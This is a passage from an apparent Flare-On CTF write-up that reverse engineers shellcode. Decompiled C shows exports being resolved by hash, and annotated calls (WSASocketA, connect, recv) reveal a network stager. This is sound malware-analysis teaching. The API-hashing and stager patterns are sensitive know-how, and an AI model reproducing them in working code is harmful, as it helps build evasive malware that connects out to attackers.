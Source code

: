 ```c
            c = *func_name_ptr;
            funcsum = (funcsum >> 0xd | funcsum << 0x13) + c;
            func_name_ptr = func_name_ptr + 1;
        } while (c != 0);

        // If export's name checksum + module name checksum == parameter, call it.
        if (funcsum + dllnamesum == checksum) {
            (*(*(exports_dir->AddressOfFunctions + base_address +
                (nameCount & 0xffff0000 | *(exports_dir->AddressOfNameOrdinals + base_address + nameCount * 2))
                * 4) + base_address))();
            return;
        }
    }
}
```

This reveals that our mysterious function is calling exports by a hash code! We can build a mapping of known hash codes to functions, by writing a C# program that takes every single DLL in `C:\Windows\System32`, parses the PE headers, and computes the hash code of every single export that they define. An implementation of such a program can be found [here](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2020/7/HashToFunction.cs). Disclaimer: It uses AsmResolver to do the PE parsing, so it is a bit of self-advertisement :).


## Making heads and tails of the shell code

We know that the return address is used as an address to call exports by a hash code. We also have constructed a mapping from hashes. All that is left is simply annotating everything in the original code:

```c
void shellmain(void)
{
    /* ... */
                    /* LoadLibrary("ws2_32.dll") */
    (*pCallByChecksum)(0x726774c,&uStack4);
                    /* WSAStartup */
    (*pCallByChecksum)(0x6b8029,400,&stack0xfffffe64);
                    /* WSASocketA */
    socket = (*pCallByChecksum)(0xe0df0fea);
    i = 5;
    /* ... */
    do {
        /* ... */
                    /* connect */                                
        *(puVar2 + -0x10) = 0x6174a599;
        /* ... */
        ptr = (*pCallByChecksum)(*(puVar2 + -0x10),*(puVar2 + -0xc),*(puVar2 + -8),*(puVar2 + -4));
        if (ptr == 0x0) goto LAB_00000234;
        i = i + -1;
        puVar1 = puVar2 + -0x10;
    } while (i != 0);
    puVar3 = puVar2 + -0x14;
                    /* ExitProcess */
    *(puVar2 + -0x14) = 0x56a2b5f0;
    /* ... */
    (*pCallByChecksum)(*(puVar2 + -0x14));
LAB_00000234:
    /* ... */
                    /* recv */
    *(puVar3 + -0x14) = 0x5fc8d902;
    /* ... */
```